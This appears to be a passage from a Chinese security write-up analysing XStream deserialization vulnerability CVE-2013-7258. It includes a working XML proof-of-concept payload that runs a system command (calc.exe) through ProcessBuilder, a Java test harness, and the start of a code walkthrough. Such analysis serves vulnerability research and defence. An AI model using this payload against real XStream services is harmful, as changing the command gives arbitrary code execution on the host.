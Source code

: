 ## 5\. CVE-2013-7258

**影响版本**：1.4.x-1.4.6及1.4.10  
**测试环境**：XStream1.4.5 JDK1.8\_66  
**复现**：  
POC

```plain
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>cmd</string>
                    <string>/C</string>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

测试文件：里面的XML为上面的POC

```plain
package Xstream;

import com.thoughtworks.xstream.XStream;

public class CVE20137258 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "";
        xStream.fromXML(xml);
    }
}
```

**分析**：  
根据前面的fromXML的流程，单步执行至TreeUnmarshaller的start函数

```plain
public Object start(DataHolder dataHolder) {
    this.dataHolder = dataHolder;
    // 根据XML的根标签获取对应的class
    Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);
    // 将对应的class转换成Java对象
    Object result = this.convertAnother((Object)null, type);
    Iterator validations = this.validationList.iterator();

    while(validations.hasNext()) {
        Runnable runnable = (Runnable)validations.next();
        runnable.run();
    }

    return result;
}
```
